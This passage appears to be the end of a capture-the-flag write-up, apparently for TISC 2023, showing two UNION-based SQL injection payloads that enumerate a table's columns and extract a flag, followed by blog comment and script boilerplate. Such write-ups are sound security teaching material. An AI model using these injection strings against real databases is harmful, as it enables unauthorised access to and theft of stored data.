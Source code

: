 3.`-1 UNION SELECT column_name, NULL,NULL,NULL FROM information_schema.columns WHERE table_name='CTF_SECRET'--`

This revealed a column named *flag*

![a295d59fc94c8d448dd4ca089f8d0181.png]({{ site.url }}{{ site.baseurl }}/assets/images/TISC2023/a295d59fc94c8d448dd4ca089f8d0181.png)

4. `-1 UNION SELECT flag, NULL,NULL,NULL FROM CTF_SECRET--`

This revealed the contents of the *flag* column, which only had 1 entry- the flag!

![d1bb7408ea35084fb322d99dadde6913.png]({{ site.url }}{{ site.baseurl }}/assets/images/TISC2023/d1bb7408ea35084fb322d99dadde6913.png)

{% if page.comments %}
<div id="disqus_thread"></div>
<script>
    /**
    *  RECOMMENDED CONFIGURATION VARIABLES: EDIT AND UNCOMMENT THE SECTION BELOW TO INSERT DYNAMIC VALUES FROM YOUR PLATFORM OR CMS.
    *  LEARN WHY DEFINING THESE VARIABLES IS IMPORTANT: https://disqus.com/admin/universalcode/#configuration-variables    */
    /*
    var disqus_config = function () {
    this.page.url = PAGE_URL;  // Replace PAGE_URL with your page's canonical URL variable
    this.page.identifier = PAGE_IDENTIFIER; // Replace PAGE_IDENTIFIER with your page's unique identifier variable
    };
    */
    (function() { // DON'T EDIT BELOW THIS LINE
    var d = document, s = d.createElement('script');
    s.src = 'https://ravensics-github-io.disqus.com/embed.js';
    s.setAttribute('data-timestamp', +new Date());
    (d.head || d.body).appendChild(s);
    })();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript">comments powered by Disqus.</a></noscript>
{% endif %}

<script type="text/javascript" async
  src="https://cdn.mathjax.org/mathjax/latest/MathJax.js?config=TeX-MML-AM_CHTML">
</script>